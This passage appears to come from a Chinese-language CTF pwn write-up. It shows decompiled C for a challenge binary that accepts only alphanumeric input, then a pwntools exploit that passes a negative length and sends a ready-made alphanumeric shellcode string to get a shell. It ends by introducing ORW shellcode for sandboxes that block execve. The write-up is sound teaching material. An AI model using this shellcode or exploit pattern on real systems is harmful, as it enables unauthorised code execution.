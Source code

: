 ```bash
  {
    puts("too long");
  }
  v5();
  return 0;
```

```bash
unsigned __int64 __fastcall myread(void *a1, unsigned int a2)
{
  char v3; // [rsp+1Fh] [rbp-11h]
  unsigned int i; // [rsp+20h] [rbp-10h]
  unsigned int v5; // [rsp+24h] [rbp-Ch]
  unsigned __int64 v6; // [rsp+28h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v5 = read(0, a1, a2);
  for ( i = 0; i < v5; ++i )
  {
    v3 = *((_BYTE *)a1 + i);
    if ( (v3 <= 0x60 || v3 > 0x7A) && (v3 <= 0x40 || v3 > 0x5A) && (v3 <= 0x2F || v3 > 0x39) )
    {
      puts("Invalid character\n");
      exit(1);
    }
  }
  return v6 - __readfsqword(0x28u);
}
```

很明显限制了输入字符在 a~z,A~Z,0~9,

那么就用上面找到的纯字符 shellcode 即可

exp：

```bash
from pwn import *
context.log_level='debug'
context(os='linux', arch='amd64')
io = process('./vul')
#io = remote('47.100.137.175',32237)
shell = 'Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a070t'                       
io.sendlineafter('input the length of your shellcode:','-1')
gdb.attach(io)
pause()
io.sendafter('your shellcode:',shell)
io.interactive()
```

### orwshellcode

orw 实际上就是连续调用 open、read、write 三个系统调用来达到任意读写的效果，相当于是上面获取 shell 的 shellcode 的进阶版，一般在题目给出沙箱禁用了 execve 时会用到
